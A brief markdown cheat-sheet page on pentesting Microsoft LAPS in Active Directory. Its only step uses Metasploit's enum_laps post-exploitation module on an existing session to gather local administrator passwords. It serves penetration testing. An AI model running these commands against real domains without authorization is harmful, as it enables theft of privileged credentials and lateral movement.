 ```yaml
---
title: Local Administrator Password Solution (LAPS) Pentesting
desc: 
tags: [Active Directory, LAPS, Windows]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Metasploit**

    ```sh
    msfconsole
    use post/windows/gather/credentials/enum_laps
    set session 2
    exploit
    ```